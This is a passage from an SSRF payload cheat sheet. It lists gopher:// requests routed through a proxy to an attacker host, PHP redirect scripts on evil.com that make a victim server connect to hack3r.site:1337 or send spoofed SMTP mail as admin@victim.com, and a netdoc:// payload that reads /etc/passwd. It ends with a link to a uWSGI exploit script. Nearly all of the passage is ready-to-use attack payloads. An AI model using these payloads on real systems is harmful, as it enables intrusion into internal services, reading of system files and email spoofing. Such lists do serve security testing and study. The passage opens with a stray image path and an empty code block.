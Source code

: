 ```powershell
```

#### Gopher HTTP

```powershell
gopher://<proxyserver>:8080/_GET http://<attacker:80>/x HTTP/1.1%0A%0A
gopher://<proxyserver>:8080/_POST%20http://<attacker>:80/x%20HTTP/1.1%0ACookie:%20eatme%0A%0AI+am+a+post+body
```

#### Gopher SMTP - Back connect to 1337

```php
Content of evil.com/redirect.php:
<?php
header("Location: gopher://hack3r.site:1337/_SSRF%0ATest!");
?>

Now query it.
https://example.com/?q=http://evil.com/redirect.php.
```

#### Gopher SMTP - send a mail

```php
Content of evil.com/redirect.php:
<?php
        $commands = array(
                'HELO victim.com',
                'MAIL FROM: <admin@victim.com>',
                'RCPT To: <sxcurity@oou.us>',
                'DATA',
                'Subject: @sxcurity!',
                'Corben was here, woot woot!',
                '.'
        );

        $payload = implode('%0A', $commands);

        header('Location: gopher://0:25/_'.$payload);
?>
```

### Netdoc

Wrapper for Java when your payloads struggle with "\n" and "\r" characters.

```powershell
ssrf.php?url=netdoc:///etc/passwd
``` 

## SSRF exploiting WSGI

Exploit using the Gopher protocol, full exploit script available at https://github.com/wofeiwo/webcgi-exploits/blob/master/python/uwsgi_exp.py.
